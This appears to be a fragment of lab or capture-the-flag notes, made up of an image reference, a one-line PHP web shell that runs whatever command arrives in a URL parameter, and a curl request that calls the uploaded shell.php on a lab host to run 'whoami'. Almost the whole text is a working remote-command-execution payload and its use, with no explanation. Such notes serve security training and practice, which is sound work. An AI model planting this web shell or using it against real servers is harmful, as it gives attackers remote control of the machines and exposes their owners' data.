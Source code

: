 ___

![[Pasted image 20241014192444.png]]

```php
<?=`$_GET[0]`?>
```

```bash
curl http://10.129.202.133:3001/uploads/shell.php?0=whoami
```



